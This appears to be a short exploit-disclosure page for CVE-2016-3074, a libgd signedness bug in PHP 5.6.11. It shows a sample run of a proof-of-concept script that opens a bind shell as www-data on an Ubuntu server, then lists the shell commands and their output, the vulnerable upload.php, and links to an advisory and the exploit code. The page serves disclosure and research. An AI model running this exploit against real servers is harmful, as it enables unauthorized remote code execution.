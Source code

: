 ```yaml
---
date: 2016-04-22
---
```

# CVE-2016-3074: php 5.6.11 + libgd: signedness vulnerability

PoC for CVE-2016-3074 targeting Ubuntu 15.10 x86-64 with php5-gd and
php5-fpm running behind nginx.

```sh
$ python exploit.py --bind-port 5555 http://1.2.3.4/upload.php
[*] this may take a while
[*] offset 912 of 10000...
[+] connected to 1.2.3.4:5555
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux wily64 4.2.0-35-generic #40-Ubuntu SMP Tue Mar 15 22:15:45 UTC
2016 x86_64 x86_64 x86_64 GNU/Linux

dpkg -l|grep -E "php5-(fpm|gd)"
ii  php5-fpm       5.6.11+dfsg-1ubuntu3.1 ...
ii  php5-gd        5.6.11+dfsg-1ubuntu3.1 ...

cat upload.php
<?php
    imagecreatefromgd2($_FILES["file"]["tmp_name"]);
?>
```

- [Advisory](/advisories/008-libgd)
- [Code](https://github.com/dyntopia/exploits/tree/master/CVE-2016-3074)
